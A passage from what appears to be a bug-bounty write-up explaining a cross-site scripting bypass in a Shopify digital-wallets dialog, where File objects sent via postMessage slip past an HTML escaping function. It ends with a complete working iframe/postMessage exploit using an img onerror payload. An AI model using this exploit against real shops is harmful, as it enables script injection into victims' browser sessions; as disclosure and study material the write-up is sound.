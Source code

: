 Now if we assume that `escapeHtml` function does not have any issues/bypasses, we can observe something interesting: The function does not create a "new" escaped object, instead it over-writes properties of the existing object. This means that if we are able to create an object with a controlled property that does not respond to `hasOwnProperty` it will not be escaped. We can test this locally:
```js
// Expected to fail:
result = u({
  message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
// Bypassed:
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```
This is great, but in practice we're limited to only a few properties that are actually accessed by the HTML template:

* `variant`
* `name`
* `image`
* `message`

Additionally, we're limited to only objects which can be passed over postMessage, for example we can't use the [Error](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Error) object which already has a `message` attribute. The list of allowed objects for postMessage is defined as part of the [HTML5 structured clone algorithm](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Structured_clone_algorithm).

After a bit of experimentation with each of them, it looks like the [File](https://developer.mozilla.org/en-US/docs/Web/API/File) object is perfect for this exploit as it has a read-only `name` property which is used by our template. We can test it out like so:
```js
let f = new File(["data"], "controlledvalue");
f.name; // "controlledvalue"
f.hasOwnProperty("name"); // false
```
Putting this all together with an iframe to make it clean we get the final exploit:
```js
let shop = prompt("Enter a Target Shop URL:", "https://bored-engineering-whitehat-2.myshopify.com");
let frame = document.createElement("iframe");
frame.src = `${shop}/1337/digital_wallets/dialog`;
frame.style.display = "none";
frame.onload = () => {
  frame.contentWindow.postMessage({
    type: "DigitalWalletsDialog:change",
    digitalWalletsDialog: true,
    payload: {
      title: "placeholder",
      button: "placeholder",
      lineItems: [new File([""], "<img src=xx: onerror=alert(document.domain)>")],
    },
  }, "*");
}
document.body.appendChild(frame);
```
